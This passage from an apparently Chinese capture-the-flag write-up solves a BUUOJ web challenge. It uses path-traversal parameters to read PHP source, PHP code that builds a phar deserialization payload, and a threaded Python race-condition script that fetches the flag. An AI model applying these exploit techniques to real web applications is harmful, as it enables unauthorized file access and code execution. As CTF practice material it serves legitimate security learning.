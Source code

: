 ```php
}
```

png=../../../../../../var/www/html/upload.php&flag=1

png=../../../../../../var/www/html/edit.php&flag=1

相同方法拿到源码

生成phar文件

```php
<?php
class flag{
}
$a = new flag();
echo serialize($a);
$phar = new Phar("phar.phar");
$phar -> startBuffering();
$phar -> setStub("<?php __HALT_COMPILER(); ?>");
$phar -> setMetadata($a); 
$phar -> addFromString("test.txt","test");
$phar -> stopBuffering();
?>
```

上传phar文件后拿到路径

uploads/fe409167fb98b72dcaff5486a612a575.png

构造脚本条件竞争

```python
import requests
import threading
import time

url = "http://55451a14-9ccb-47db-809c-f4cc30a0c937.node4.buuoj.cn:81/"
png = "/uploads/head.png"
flag = "../../../../../../tmp/flag.txt"
phar = "phar://uploads/fe409167fb98b72dcaff5486a612a575.png"

def getpng():
    res = requests.get(url+png)
    print(res.text)

def linkflag():
    data = {
        "flag":"1",
        "png":flag
    }
    res = requests.post(url=url+"/edit.php",data=data)
    print(res.text)

def putphar():
    data = {
        "flag":"1",
        "png":phar
    }
    res = requests.post(url=url+"/edit.php",data=data)
    print(res.text)

while True:
    for i in range(10):
        t3 = threading.Thread(target=putphar)
        t3.start()
        t2 = threading.Thread(target=linkflag)
        t2.start()
```